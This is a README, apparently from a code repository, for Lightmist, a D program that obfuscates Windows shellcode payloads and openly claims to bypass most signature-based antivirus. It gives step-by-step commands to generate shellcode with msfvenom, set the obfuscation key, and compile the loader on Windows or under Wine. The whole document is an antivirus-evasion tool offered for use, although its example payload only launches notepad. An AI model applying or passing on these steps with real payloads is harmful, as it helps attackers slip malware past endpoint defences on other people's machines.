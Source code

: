 =========
Lightmist
=========

Basic windows payload obfuscation in D. This should bypass most
signature-based AV without issue.

Usage
-----

1) Generate a shellcode, for example with msfvenom, in the `payload` file

.. code:: bash

    $ msfvenom -p windows/exec CMD=notepad.exe > payload

2) Modify the key in lightmist.d

.. code:: bash

    $ sed -i '/KEY/s/Some random string/Some other key/' lightmist.d

3) Get a windows D compiler from
   http://downloads.dlang.org/releases/2.x/2.094.1/dmd.2.094.1.windows.7z

4) Compile (make sure to choose an architecture compatible with your payload)

.. code:: bash

    # From Windows
    $ dmd.exe -m32 -J=%cd% lightmist.d

    # From Linux

    $ WINEPATH="$(winepath -w "dmd2/windows/bin")" \
        wine dmd.exe -m32 -J=. lightmist.d
